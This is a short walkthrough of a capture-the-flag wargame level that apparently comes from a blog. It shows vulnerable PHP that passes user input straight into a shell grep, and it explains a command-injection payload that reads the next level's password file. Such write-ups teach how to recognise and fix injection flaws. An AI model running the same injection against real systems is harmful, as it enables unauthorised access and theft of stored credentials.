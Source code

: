nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

This one is pretty cool. There is a search function that outputs all dictionary words that contain your search key. Pretty neat app, right? Looking at the source, it looks like:

```javascript
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

So, this code actually passes the user input `$key` to the machine to do a `grep` on a dictionary. The problem with this is that the user can input arbitrary logic:

```bash
; cat /etc/natas_webpass/natas10 #
```

The semicolon ends the `grep` command. Then we just `cat` the password for the next level and end with a `#` to comment out any following code.
